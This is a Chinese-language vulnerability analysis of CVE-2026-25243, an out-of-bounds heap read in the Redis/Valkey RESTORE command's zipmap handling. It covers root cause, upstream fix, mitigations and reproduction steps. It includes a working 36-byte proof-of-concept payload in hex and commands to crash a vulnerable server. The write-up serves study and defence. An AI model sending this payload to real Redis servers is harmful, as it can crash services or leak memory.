

# CVE-2026-25243 — Invalid Memory Access in Redis RESTORE Command May Lead to Remote Code Execution

> **Redis / Valkey RESTORE 反序列化 | zipmap 长度前缀步长不一致 | CVSS 4.0: 7.7 HIGH | CWE-20 / CWE-122 | 需认证** | [复现步骤](#复现步骤)
>
> 漏洞触发点位于 `RESTORE` 命令：攻击者提交格式畸形、长度异常或含恶意指针偏移的 RDB 序列化载荷时，服务端在解析过程中未能充分校验，导致非法内存访问（越界读/写），进而在堆上触发缓冲区溢出；在特定堆布局与利用链下，理论上可升级为远程代码执行。

---

## 漏洞速览

| 项目 | 内容 |
|------|------|
| **CVE 编号** | CVE-2026-25243 |
| **漏洞代号** | Invalid Memory Access in Redis RESTORE Command May Lead to Remote Code Execution |
| **漏洞类型** | 堆上非法内存访问（heap-buffer-overflow read）；理论可升级为 RCE |
| **CVSS 4.0** | 7.7 HIGH（`AV:N/AC:H/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:N/SI:N/SA:N`） |
| **CWE** | CWE-20（不当输入校验）、CWE-122（基于堆的缓冲区溢出） |
| **影响组件** | `RESTORE` → `restoreCommand`（`cluster.c`）→ `verifyDumpPayload` / `rdbLoadObject` → `zipmapValidateIntegrity` / `zipmapNext`（`zipmap.c`） |
| **披露与修复** | GitHub Security Advisory [GHSA-c8h9-259x-jff4](https://github.com/redis/redis/security/advisories/GHSA-c8h9-259x-jff4)（2026-05-05）；Valkey 补丁提交 [`fea0b4064`](https://github.com/valkey-io/valkey/commit/fea0b4064cf612d1c365b032326832bff0946bd9)（PR #3619） |
| **发现方** | Emil Lerner（Wiz Zeroday Cloud event）、Joseph Surin（见 GHSA Credits） |

### 行为对比

- **正常行为**：`RESTORE` 主要用于将 RDB 格式的序列化值（通常由 `DUMP` 生成）反序列化，并重新创建为 Redis 内存中的键值对。
- **异常行为**：在底层 C 实现中，若攻击者构造格式畸形、长度异常或包含恶意指针偏移的 Payload 并提交给 `RESTORE`，解析时未能充分验证合法性，会导致非法内存访问（越界读/写），进而在堆（Heap）中触发缓冲区溢出。攻击者可通过精心布局堆内存劫持执行流，从而在 Redis 服务器上下文中执行任意系统命令（官方 CVSS 标 High；稳定 RCE 需较高利用技巧）。

### 利用门槛（CVSS v4）

| 指标 | 含义 |
|------|------|
| **AV:N** | 攻击者需能通过网络连接到该 Redis 实例 |
| **PR:L** | 后授权漏洞：须已获得访问凭证（密码或 ACL 用户） |
| **RESTORE 权限** | 账号须未被 ACL 禁止执行 `RESTORE` |
| **AC:H** | 在开启 ASLR、NX 等保护的现代系统上，稳定堆溢出 RCE 通常需较高技巧，可能需结合内存泄漏等手段 |

---

## 受影响范围

### Redis / Valkey 版本

官方公告（[GHSA-c8h9-259x-jff4](https://github.com/redis/redis/security/advisories/GHSA-c8h9-259x-jff4)）写明：

```text
受影响：Redis 全部版本（All）
已修复：Redis 侧 Patched versions 仍为 TBD（以公告更新为准）
```

本目录 PoC 与源码走读默认基于 **Valkey** 仓库；修复 commit 为 `fea0b4064`（2026-05-05）。分析漏洞版行为时，可切换到补丁的父提交：

```bash
git checkout fea0b4064^   # 修复前一版 commit
```

### 其它说明

| 项目 | 说明 |
|------|------|
| **Redis 与 Valkey** | 二者同根同源；典型组件与机制上的 CVE 往往可交叉验证（参见 [Valkey 背景](https://github.com/valkey-io/valkey-doc/blob/main/topics/history.md)） |
| **缓解措施** | 无法立即升级时，可通过 ACL 禁止用户执行 `RESTORE`（见 GHSA Workarounds） |
| **暴露面** | 须已认证且具备 `RESTORE` 权限；实验环境建议使用非常用端口并避免公网监听 |

---

## 根因分析

> 本目录的分析与复现基于 [Valkey](https://github.com/valkey-io/valkey) 代码仓库。可先了解 [Valkey 背景](https://github.com/valkey-io/valkey-doc/blob/main/topics/history.md)：与 Redis 同根同源，典型组件上的 CVE 往往可在两个仓库交叉验证。
>
> 想要理解本次 CVE，建议对 Redis 的数据结构与持久化机制有基本了解；下文会补充 listpack、zipmap 与 RDB type 等相关背景。

### 攻击面总览

| 层级 | 组件 | 作用 |
|------|------|------|
| 命令层 | `RESTORE` | 接收 DUMP 格式的二进制，反序列化为内存对象 |
| 校验层 | `verifyDumpPayload()` | RDB 版本 + CRC64 |
| 加载层 | `rdbLoadObject()` | 按 1 字节 type 分支加载 |
| 遗留编码 | `RDB_TYPE_HASH_ZIPMAP` (9) | 极老 Redis 小 hash；加载时转成 listpack |
| 漏洞点 | `zipmapValidateIntegrity` vs `zipmapNext` | 两套「长度前缀步长」不一致 |

### 调用链（从客户端到越界读）



### 1. `restoreCommand` 入口

`src/cluster.c` 中的核心逻辑：

```c
/* RESTORE key ttl serialized-value [REPLACE] [ABSTTL] [IDLETIME seconds] [FREQ frequency] */
/* RESTORE command：将 RDB 格式的序列化值反序列化，重新生成内存中的键值对 */
void restoreCommand(client *c) {
    ...
    /* Verify RDB version and data checksum. */
    /* 验证 RDB 的格式、算校验和 — 实验可跳过，攻击者也可构造正确 CRC 注入 */
    if (verifyDumpPayload(objectGetVal(c->argv[3]), sdslen(objectGetVal(c->argv[3])), &rdbver) == C_ERR) {
        addReplyError(c, "DUMP payload version or checksum are wrong");
        return;
    }

    rioInitWithBuffer(&payload, objectGetVal(c->argv[3]));
    type = rdbLoadObjectType(&payload);
    ...
    /* 开始真正加载某个对象 */
    obj = rdbLoadObject(type, &payload, objectGetVal(key), c->db->id, NULL, RDBFLAGS_NONE, 0);
    if (obj == NULL) {
        addReplyError(c, "Bad data format");
        return;
    }
    ...
}
```

**DUMP/RESTORE 载荷格式**（无 `REDIS`/`VALKEY` magic，仅 type + 对象 + footer）：

```text
[type 1B][RDB 编码的对象体][RDB version 2B LE][CRC64 8B LE]
```

`verifyDumpPayload` 可用 `DEBUG SET-SKIP-CHECKSUM-VALIDATION yes` 跳过 CRC（仅实验用；真实攻击可计算正确 CRC）。

### 2. 为何现代 Hash 仍受影响？

当前写入的 Hash 多为 `listpack` 或 `hashtable`，但 **RDB type 9 仍被支持**：攻击者可直接构造 `RESTORE payload`，**无需服务器上已有 zipmap key**。

RDB 支持的数据结构类型（`src/rdb.h`）：

```c
/* Map object types to RDB object types. Macros starting with OBJ_ are for
 * memory storage and may change. Instead RDB types must be fixed because
 * we store them on disk. */
enum RdbType {
    RDB_TYPE_STRING = 0,
    RDB_TYPE_LIST = 1,
    RDB_TYPE_SET = 2,
    RDB_TYPE_ZSET = 3,
    RDB_TYPE_HASH = 4,
    RDB_TYPE_ZSET_2 = 5, /* ZSET version 2 with doubles stored in binary. */
    RDB_TYPE_MODULE_PRE_GA = 6, /* Used in 4.0 release candidates */
    RDB_TYPE_MODULE_2 = 7,
    /* Module value with annotations for parsing without \
the generating module being loaded. */
    RDB_TYPE_HASH_ZIPMAP = 9,  /* 本次漏洞所在：HASH_ZIPMAP */
    RDB_TYPE_LIST_ZIPLIST = 10,
    RDB_TYPE_SET_INTSET = 11,
    RDB_TYPE_ZSET_ZIPLIST = 12,
    RDB_TYPE_HASH_ZIPLIST = 13,
    RDB_TYPE_LIST_QUICKLIST = 14,
    RDB_TYPE_STREAM_LISTPACKS = 15,
    RDB_TYPE_HASH_LISTPACK = 16, /* Added in RDB 10 (7.0) */
    RDB_TYPE_ZSET_LISTPACK = 17,
    RDB_TYPE_LIST_QUICKLIST_2 = 18,
    RDB_TYPE_STREAM_LISTPACKS_2 = 19,
    RDB_TYPE_SET_LISTPACK = 20, /* Added in RDB 11 (7.2) */
    RDB_TYPE_STREAM_LISTPACKS_3 = 21,
    RDB_TYPE_HASH_2 = 22, /* Hash with field-level expiration, RDB 80 (9.0) */
    RDB_TYPE_LAST
};
```

`src/rdb.c` 中 `rdbLoadObject` 的 zipmap 分支：

```c
/* Load an Object of the specified type from the specified file.
 * On success a newly allocated object is returned, otherwise NULL.
 * When the function returns NULL and if 'error' is not NULL, the
 * integer pointed by 'error' is set to the type of error that occurred */
robj *rdbLoadObject(int rdbtype, rio *rdb, sds key, int dbid, int *error, int rdbflags, mstime_t now) {
    ...
    /* Fix the object encoding, and make sure to convert the encoded
     * data type into the base type if accordingly to the current
     * configuration there are too many elements in the encoded data
     * type. Note that we only check the length and not max element
     * size as this is an O(N) scan. Eventually everything will get
     * converted. */
    switch (rdbtype) {
        case RDB_TYPE_HASH_ZIPMAP:
            /* Since we don't keep zipmaps anymore, the rdb loading for these
             * is O(n) anyway, use `deep` validation. */
            if (!zipmapValidateIntegrity(encoded, encoded_len, 1)) {
                rdbReportCorruptRDB("Zipmap integrity check failed.");
                zfree(encoded);
                objectSetVal(o, NULL);
                decrRefCount(o);
                return NULL;
            }
            /* Convert to ziplist encoded hash. This must be deprecated
             * when loading dumps created by Redis OSS 2.4 gets deprecated. */
            {
                unsigned char *lp = lpNew(0);
                unsigned char *zi = zipmapRewind(objectGetVal(o));
                unsigned char *fstr, *vstr;
                unsigned int flen, vlen;
                unsigned int maxlen = 0;
                hashtable *dupSearchHashtable = hashtableCreate(&setHashtableType);
                while ((zi = zipmapNext(zi, &fstr, &flen, &vstr, &vlen)) != NULL) {
                    if (flen > maxlen) maxlen = flen;
                    if (vlen > maxlen) maxlen = vlen;
                    /* search for duplicate records */
                    sds field = sdstrynewlen(fstr, flen);
                    int field_added = field && hashtableAdd(dupSearchHashtable, field);
                    if (!field_added || !lpSafeToAdd(lp, (size_t)flen + vlen)) {
                        rdbReportCorruptRDB("Hash zipmap with dup elements, or big length (%u)", flen);
                        hashtableRelease(dupSearchHashtable);
                        if (!field_added) sdsfree(field);
                        zfree(encoded);
                        zfree(lp);
                        objectSetVal(o, NULL);
                        decrRefCount(o);
                        return NULL;
                    }
                    lp = lpAppend(lp, fstr, flen);
                    lp = lpAppend(lp, vstr, vlen);
                }
            }
            ...
    }
}
```

**流程**：深度校验通过 → `zipmapNext` 遍历 → 每条 field/value 写入 listpack（将 zipmap 转为 listpack）。漏洞发生在**校验与迭代**对「长度前缀占几字节」理解不一致。

### 3. 数据结构背景：listpack 与 zipmap

> 引入 listpack 是为了解决压缩列表的连锁更新问题。若已熟悉二者，可跳过本节。

#### 3.1 listpack

紧凑保存数据；逻辑布局：

```text
[listpack 总字节数][listpack 元素数量][listpack entry]...[listpack 结尾标识 0xFF]
```

源码中使用 `unsigned char *` 连续字节，读取时用 `listpackEntry` 解释（`listpack.c`）：

```c
#define LP_HDR_SIZE 6 /* 32 bit total len + 16 bit number of elements. */
#define LP_HDR_NUMELE_UNKNOWN UINT16_MAX

#define lpGetTotalBytes(p) \
    (((uint32_t)(p)[0] << 0) | ((uint32_t)(p)[1] << 8) | \
     ((uint32_t)(p)[2] << 16) | ((uint32_t)(p)[3] << 24))

#define lpGetNumElements(p) (((uint32_t)(p)[4] << 0) | ((uint32_t)(p)[5] << 8))
```

```text
+----------+----------+----------+----------+----------+----------+-----+ ... +-----+
| total    | total    | total    | total    | numele   | numele   |entry|     |0xFF |
| bytes    | (LE 32)  |          |          | (LE 16)  |          |  1  |     | EOF |
+----------+----------+----------+----------+----------+----------+-----+ ... +-----+
|<------------------------ LP_HDR_SIZE = 6 ------------------------>|<-- entries -->|
```

- offset 0–3：整个 listpack 字节数（小端 `uint32_t`）
- offset 4–5：元素个数；`UINT16_MAX` 表示未知，需扫描（`LP_HDR_NUMELE_UNKNOWN`）
- offset 6 起：entry 串；最后一字节 `LP_EOF`（`0xFF`）

**entry 内存布局**：

```text
[ encoding + payload ... ][ backlen ]
```

- encoding + payload：由首字节高位模式区分整数/字符串及长度
- backlen：entry 总长度的变长编码，供 `lpPrev()` 反向遍历

**`listpackEntry`（读入后的逻辑值）**：

```c
/* Each entry in the listpack is either a string or an integer. */
typedef struct {
    /* When string is used, it is provided with the length (slen). */
    unsigned char *sval;  /* 指向 listpack 内部的对应缓冲区 */
    uint32_t slen;
    /* When integer is used, 'sval' is NULL, and lval holds the value. */
    long long lval;
} listpackEntry;
```

#### 3.2 zipmap

zipmap 是早期 Redis 的字符串→字符串紧凑映射（O(n) 查找），布局见 `src/zipmap.c` 文件头注释：

```text
[zmlen 1B][field len 前缀][field 数据][value len 前缀][free 1B][value 数据] ... [0xFF END]
```

长度编码规则（`ZIPMAP_BIGLEN = 254`）：

| 首字节 | 含义 | 前缀宽度 |
|--------|------|----------|
| 0–253 | 长度即该值 | 1 字节 |
| 254 (`0xFE`) | 后跟 4 字节 uint32（小端） | 5 字节 |
| 255 | `ZIPMAP_END` | — |

`zipmap.c` 中的关键函数：

```c
static unsigned int zipmapDecodeLength(unsigned char *p) {
    unsigned int len = *p;
    if (len < ZIPMAP_BIGLEN) return len;
    memcpy(&len, p + 1, sizeof(unsigned int));
    memrev32ifbe(&len);
    return len;
}

static unsigned int zipmapEncodeLength(unsigned char *p, unsigned int len) {
    ...
    return ZIPMAP_LEN_BYTES(len);  /* l<254 → 1 字节，否则 5 字节 */
}

static unsigned int zipmapGetEncodedLengthSize(unsigned char *p) {
    return (*p < ZIPMAP_BIGLEN) ? 1 : 5;  /* 看线上首字节，不看解码值 */
}

static unsigned int zipmapRawKeyLength(unsigned char *p) {
    unsigned int l = zipmapDecodeLength(p);
    return zipmapEncodeLength(NULL, l) + l;  /* 按解码值 l 重算前缀宽度 */
}
```

### 4. 漏洞根因：两套步长差 4 字节

PoC 在**第一个 field 的长度前缀**写入：

```text
fe 03 00 00 00   → 线上 5 字节编码，解码 l = 3
61 62 63         → "abc"
```

| 阶段 | 函数 | field 前缀如何前进 |
|------|------|-------------------|
| 校验 | `zipmapValidateIntegrity` | `s = zipmapGetEncodedLengthSize(p)` → 见 `0xFE` → 5 → 共前进 5+3=8 |
| 迭代 | `zipmapNext` → `zipmapRawKeyLength` | `l=3` → `zipmapEncodeLength(NULL,3)` → 1 → 共前进 1+3=4 |

**差 4 字节**。第二次 `zipmapNext` 时指针落在 `"abc"` 中间，可能把 `0x61`（`'a'`）当成长度 97，随后 `sdstrynewlen(fstr, 97)` 对 24 字节的 zipmap buffer **堆越界读**（ASan: `heap-buffer-overflow in zipmapNext`）。

时间线示意：

```text
buffer: [02][fe 03 00 00 00][a][b][c][03][00][def]...
校验 p ── 每次按 5 字节前缀走
迭代 zi ── 第一次只按 1 字节前缀走 → 错位 → 误读 0x61 为长度 97
```

### 5. 与 listpack / RDB 的关系

- **listpack**：转换目标，现代 hash 的紧凑编码；本 CVE 不直接破坏 listpack，而是**进入转换前的 zipmap 迭代出错**。
- **RDB type 9**：`RDB_TYPE_HASH_ZIPMAP = 9`；RESTORE payload 首字节为 `0x09`，后跟 RDB 长度前缀 + zipmap 字节串。
- **`sanitize_dump_payload`**：主要约束 ziplist/listpack 等；zipmap 路径在修复前是 `zipmapValidateIntegrity` 逻辑缺陷，不是简单关闭 sanitize 能修。

### 6. 从越界读到 RCE

本 CVE 归类 **CWE-122**（堆上非法访问）。单次 PoC 多为 **heap-buffer-overflow read**；在特定堆布局与后续利用链下，理论上可能升级为写原语或 RCE（官方 CVSS 标 High）。目前公开利用仍以越界读为主，完整 RCE 链可另行尝试。学习阶段以 **ASan 复现 + 理解校验缺口** 为主即可。

---

## 利用机制

### 攻击前置条件

1. **已认证**：须能登录 Redis/Valkey（`PR:L`）。
2. **`RESTORE` 权限**：ACL 未禁止该命令。
3. **网络可达**：能向实例发送 RESP（载荷含 NUL，须走 socket，不能用 `valkey-cli` argv 直接携带二进制）。

### 载荷要点

| 项目 | 说明 |
|------|------|
| RDB type | `0x09`（`HASH_ZIPMAP`） |
| 畸形 zipmap | 第一个 field 用 5 字节 overlong 编码表示长度 3 |
| CRC | 可计算正确 CRC，或实验环境用 `DEBUG SET-SKIP-CHECKSUM-VALIDATION 1` |

### 与本仓库 PoC 的对应关系

| 文件 | 说明 |
|------|------|
| `exploit/exploit.py` | 与上游 `tests/unit/dump.tcl`（`fea0b4064`）相同字节与命令序列；经 RESP 发送 `RESTORE`（载荷含 NUL，不能用 `valkey-cli` argv 直接携带） |

核心载荷（与 `dump.tcl` 一致，36 字节）：

```python
PAYLOAD = bytes.fromhex(
    "091802fe0300000061626303006465660367686903006a6b6cff"
    "50000000000000000000"
)
KEY = "zipmap_test"
```

完整脚本见 `exploit/exploit.py`（含 `resp_command`、`run_poc` 与 DEBUG/CRC 错误提示）。

---

## 复现步骤

### 1. 准备环境

1. 克隆 [valkey-io/valkey](https://github.com/valkey-io/valkey)，切换到漏洞版：

```bash
git checkout fea0b4064^
make -j"$(nproc)"
```

2. 建议使用 **AddressSanitizer** 构建以便观察 `heap-buffer-overflow`。

3. 启动服务（须开启 DEBUG，与 `runtest {needs:debug}` 一致）：

```bash
./src/valkey-server --port 6379 --enable-debug-command yes
```

### 2. 运行 PoC

在本漏洞目录下执行：

```bash
cd "CVE-2026-25243 Invalid Memory Access in Redis RESTORE Command May Lead to Remote Code Execution"
python3 exploit/exploit.py
```

脚本行为与上游 `tests/unit/dump.tcl` 中 CVE-2026-25243 用例一致：

```text
DEBUG SET-SKIP-CHECKSUM-VALIDATION 1
RESTORE zipmap_test 0 <binary payload>
DEBUG SET-SKIP-CHECKSUM-VALIDATION 0
EXISTS zipmap_test
```

亦可直接跑回归测试：

```bash
./runtest --single tests/unit/dump.tcl -match '*CVE-2026-25243*'
```

**注意**：`DEBUG SET-SKIP-CHECKSUM-VALIDATION` 须用 `1`/`0`，不能用 `yes`/`no`（`atoi("yes")==0`）。

### 3. 预期现象

**未打补丁 + ASan**：server 终端可见 crash，例如：

```text
==357339==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x7ba013ff9d58 ...
```

**已打补丁**：客户端常见 `Bad data format`；`EXISTS zipmap_test` 为 0。

**载荷 hex（36 字节，含 footer）**：

```text
09 18 02 fe 03 00 00 00 61 62 63 03 00 64 65 66 03 67 68 69 03 00 6a 6b 6c ff 50 00 + 8 字节 CRC
```

等价于：

```text
091802fe0300000061626303006465660367686903006a6b6cff50000000000000000000
```

---

## 修复方案

### 上游修复（推荐）

- **Commit**：[`fea0b4064`](https://github.com/valkey-io/valkey/commit/fea0b4064cf612d1c365b032326832bff0946bd9)（PR #3619，2026-05-05）
- **文件**：`src/zipmap.c`；回归测试 `tests/unit/dump.tcl`

### 修复原理

在 `zipmapValidateIntegrity()` 中，对 **field 名** 和 **value** 的长度前缀各增加 canonical 检查：

```c
l = zipmapDecodeLength(p);
/* 解码长度 < 254 时，线上编码必须只占 1 字节 */
if (l < ZIPMAP_BIGLEN && s != 1)
    return 0;
```

含义：

- 合法小长度必须用 1 字节（如 `0x03`），不能用 `0xFE + uint32` 的 5 字节 overlong 形式（除非解码值 ≥ 254）。
- 校验路径与 `zipmapNext` 对「前缀宽度」的语义在**进入转换循环之前**对齐。
- 改动小，不影响合法 zipmap（如单测里 len=512 的 5 字节编码仍满足 `l >= 254` 或 `s == 5`）。

### 修复后行为

| 项目 | 修复前 | 修复后 |
|------|--------|--------|
| `zipmapValidateIntegrity` | overlong 可能通过 | 返回 0，拒绝 |
| `rdbLoadObject` | 进入 `zipmapNext` 可能越界 | 返回 NULL → `Bad data format` |
| ASan | `heap-buffer-overflow` | 无 |
| `EXISTS zipmap_test` | 0 | 0 |

修复后可再次运行 `exploit/exploit.py` 验证：应得到 `Bad data format` 而非 ASan 报错。

### 临时缓解

在无法立即升级时，通过 **ACL 禁止 `RESTORE`**（或其它高危命令）限制已认证用户的可利用面；须结合网络隔离将实例限制在可信网段。**不能替代**版本升级。

---

## 时间线

| 日期 | 事件 |
|------|------|
| 2026-05-05 | GitHub 发布 Security Advisory [GHSA-c8h9-259x-jff4](https://github.com/redis/redis/security/advisories/GHSA-c8h9-259x-jff4) |
| 2026-05-05 | Valkey 合入修复 [`fea0b4064`](https://github.com/valkey-io/valkey/commit/fea0b4064cf612d1c365b032326832bff0946bd9)（`zipmapValidateIntegrity` canonical 检查；`dump.tcl` 回归测试） |

> CVE 在 MITRE / NVD 中的登记细节与 Redis 主线发行版 backport 以后续官方同步为准。

---

## 参考资料

| 来源 | 链接 |
|------|------|
| GitHub Security Advisory (Redis) | https://github.com/redis/redis/security/advisories/GHSA-c8h9-259x-jff4 |
| Valkey 修复提交 | https://github.com/valkey-io/valkey/commit/fea0b4064cf612d1c365b032326832bff0946bd9 |
| Valkey 仓库 | https://github.com/valkey-io/valkey |
| Valkey 背景 | https://github.com/valkey-io/valkey-doc/blob/main/topics/history.md |

- 报告方：Emil Lerner（Wiz Zeroday Cloud event）、Joseph Surin（见 GHSA Credits）
- 本文档链接核对日期：2026-05-27
